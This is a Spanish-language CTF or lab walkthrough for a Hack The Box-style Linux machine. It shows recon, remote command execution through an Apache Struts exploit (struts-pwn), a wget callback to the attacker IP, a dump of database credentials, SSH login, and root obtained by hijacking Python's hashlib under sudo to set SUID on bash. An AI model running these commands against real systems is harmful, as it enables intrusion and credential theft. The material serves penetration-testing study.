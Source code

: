 ## Summary

- IP -> 10.10.10.64
- Ports -> TCP (20, 80, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 20 -> 
    - 80 -> 
    - 8080 -> 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **whatweb http://< URL>:< PUERTO>** – Nos dara una breve descripcion del gestor de contenidos por puerto especifico

Miramos la pagina web
- Observamos su codigo fuente 

- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> < http:// url/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Encontramos un dir llamado 'Monitoring'
El cual al momento de colocarlo en la url de la pagina web, podemos observar en la url que hay un 'Wlcome.action'
Ahora hacemos una busqueda en Google de **.action exploit**

Y encontramos en Github una url que se llama 'mazen160/struts...Apache strust'
Volvemos a buscar en Google que es ''apache struts' y nos sale  que es una herramienta de soporte para el desarrollo de aplicaciones web del patron MVC bajo la plataforma Java EE. 

Nos dirigimos a la pagina anterior de Github que habiamos encontrado
Nos clonamos el repo
- Comando -> **git clone https://github.com/mazen160/struts-pwn**
- Comando ->**python3 strust -h** Miramos el panel e ayuda del ejecutable en python3
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'id'** Debemos de tener la extencion .action con ese comando nosotros podemos colocar un comando que si se ejecuta correcramente nos mostrara el id de la maquina victima.

Y con eso tenemos ejecucion remota de comandos.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'whoami'** Ejecutamos el comando whoami


- Comando -> **python3 -m http.server 80** Nos ponemos en escucha por el puerto 80
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which curl'** Para ver si tiene Curl
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which wget'** Para ver si tiene Curl
Miramos que si existe el comando Wget en la maquina victima
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'wget http://10.10.14.12/test'** Para ver si recibimos algo, pero vemos que no.

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ls -l'** Para ver que hay en el directorio de la maquina victima, y encontramos db_connect

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat db_connect'** Para ver que hay
dentro del file 'db_connect'

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which mysql'** Para ver si existe la base de datos 

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which mysqlshow'** Para ver si esta mysqlshow y asi poder hacer mejor la intercaccion 
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin'** Para ingresar a la base de datos
	u -> usuario 
	p -> password
El usuario y Passwd se pone seguidos despues de la u y p.


- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin users'** Para ver que tablas tenemos, despues de saber el nombre de las bases de datos 

Para la tabla que encontramos que columnas existen.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin users accounts'** 

Ya cuando lleguemos a la parte de los usuarios y passwd, podemos colocar el siguiente comando.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql -uadmin -padmin -e "select * from accounts" users'** 
Colocando la base de datos al final y cambiamos el myslshow por mysql

Ahora tenemos un usuario y passwd

## User
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh 
Ahora podemos buscar la primer flag user.txt

- **uname -a** -> Miramos el Kernel y algunos detalles, amdx64 o x86, version. Buscar el Google si existe algun exploit.
- **lsb_release -a** -> Para ver que distribucion de Linux es
- **sudo -l** -> Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
	- **sudo Command** -> Para poder ejecutar comando como root
Encontramos un archivo de Python que podemos ejecutar test.py pero no lo podemos modificar. Solo ejecutar 
- **cat test.py** -> Miramos el contenido del archivo python

	La tecnica que vamos a usar es un **Library Hijacking en Python3**

Podemos observar que se esta importando la libreria **Hashlib**, y con eso llamar haslib.md5
Y esta tecnica consiste en que cuando el script llame a la libreria, esta primero va a buscar en la ruta actual de trabajo y luego seguira con la ruta que corresponda. Estos es similar a la tecnica de **Path Hijacking de Bash** 

Por lo que debemos de crear un archivo en la ruta actual de trabajo: 
- **nano hashlib.py** 
	import os
	os.system("chmod u+s /bin/bash")

Para que en ese file podamos agregarle el privilegio SUI a la bash y asi poder temporalmente ser Root.

- **sudo -u root /usr/bin/python /home/richard/test.py** -> Para poder ejecutar el archivo en python
Y en ese punto hemos secuestrado la libreria 


## Root
Miramos la bash para ver is ha funcionado 
- **ls -l /bin/bash** -> Para ver los privilegios de la bash 
- **bash -p** -> Para ejecutar la bash y lanzarnos la consola como root cuando tiene permisos SUID o la s  (p=privilege)
